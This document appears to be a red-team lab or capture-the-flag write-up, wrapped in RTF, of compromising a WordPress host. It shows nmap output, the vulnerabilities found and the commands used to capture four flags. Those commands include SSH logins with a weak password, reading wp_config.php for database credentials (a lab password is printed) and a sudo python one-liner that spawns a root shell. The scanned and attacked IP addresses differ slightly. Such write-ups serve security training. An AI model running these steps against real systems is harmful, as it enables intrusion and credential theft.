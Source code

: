 {\rtf1\ansi\ansicpg1252\cocoartf2638
\cocoatextscaling0\cocoaplatform0{\fonttbl\f0\fmodern\fcharset0 Courier;}
{\colortbl;\red255\green255\blue255;\red0\green0\blue0;}
{\*\expandedcolortbl;;\cssrgb\c0\c0\c0;}
\margl1440\margr1440\vieww11520\viewh8400\viewkind0
\deftab720
\pard\pardeftab720\partightenfactor0

\f0\fs26 \cf0 \expnd0\expndtw0\kerning0
\outl0\strokewidth0 \strokec2 # Red Team: Summary of Operations\
\
## Table of Contents\
- [Exposed Services](#exposed-services)\
- [Critical Vulnerabilities](#critical-vulnerabilities)\
- [Exploitation](#exploitation)\
\
### Exposed Services\
\
Nmap scan results for each machine reveal the below services and OS details:\
\
```bash\
$ nmap -sV -O 192.168.1.110\
#  Nmap scan report for 192.168.1.110\
#  Host is up (0.00072s latency).\
#  Not shown: 995 closed ports\
#  PORT    STATE SERVICE     VERSION\
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
#  111/tcp open  rpcbind     2-4 (RPC #100000)\
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)\
#  Device type: general purpose\
#  Running: Linux 3.X|4.X\
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4\
#  OS details: Linux 3.2 - 4.9\
#  Network Distance: 1 hop\
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
#\
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .\
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds\
```\
\
This scan identifies the services below as potential points of entry:\
- Target 1\
  - Port 22 (SSH)\
  - Port 80 (HTTP)\
  - Port 111 (rpcbind)\
  - Port 139 (netbios / smb)\
  - Port 445 (netbios / smb)\
\
### Critical Vulnerabilities\
\
The following vulnerabilities were identified on each target:\
- Target 1\
  - `wpscan` user enumeration\
    - `wpscan` was able to enumerate users and find valid usernames for the\
      target system.\
    - ![wp-scan-output](./images/wp-scan-output.png)\
  - SSH with Password\
    - Users are able to ssh into the machine with simply a password, rather than\
      requiring an SSH key.\
    - User `michael` had an incredibly weak password (same as his username).\
  - `python` can run with sudo\
    - User `steven` has the ability to run `python` with `sudo`\
    - Python can execute arbitrary code on the system, so it is trivial to get\
      a shell with root access using this loophole\
  - Database credentials in plain text\
    - Database credentials for the wordpress site were found written in plain\
      text, and stored in the `/var/www/html/wp_config.php`.\
    - This allowed us to access the mysql database used for the site, and\
      extract password hashes and other confidential information.\
  - [CVE-2017-3167](https://access.redhat.com/security/cve/CVE-2017-3167)\
    - Authentication bypass is possible on the version of Apache running on the\
      server\
  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)\
    - Version of `samba` running on the server is insecure and allows for remote\
      code execution.\
\
### Exploitation\
\
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:\
- Target 1\
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d\
    - **Exploit Used**\
      - Weak Password / SSH with password\
        - After SSHing into the host with `michael`'s credentials, we were able\
          to search the `/var/www/html` directory for `flag1`.\
      - Commands run:\
        - `ssh michael@192.168.1.100`\
        - `cd /var/www/html`\
        - `grep -ER flag1`\
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c\
    - **Exploit Used**\
      - Weak Password / SSH with password\
        - After SSHing into the host with `michael`'s credentials, `flag2` was\
          found right in `/var/www`\
      - Commands run:\
        - `ssh michael@192.168.1.100`\
        - `cd /var/www`\
        - `cat flag2.txt`\
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2\
    - **Exploit Used**\
      - Database credentials in plain text\
        - After getting the database credentials from\
          `/var/www/html/wp_config.php`, we connected to the `mysql` database\
          and searched for the flag.\
      - Commands run:\
        - `ssh michael@192.168.1.100`\
        - `less /var/www/html/wp_config.php`\
        - `mysql --user root --password` # Password is `R@v3nSecurity`\
        - `mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";`\
        - This returned the value for flag 3\
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce\
    - **Exploit Used**\
      - `python` can run with sudo\
        - After cracking `steven`'s password using `john` and the hash found in\
          the database, we determined that user `steven` could run `python` with\
          `sudo` permissions.\
        - This allows us to use python as sudo to execute a shell program,\
          thereby granting us access to the `root` account.\
        - `flag4.txt` was found in the `/root` directory, the `root` account's\
          home directory.\
      - Commands run:\
        - `python -c 'import os; os.system("/bin/sh")'`\
        - `cat flag4.txt`\
}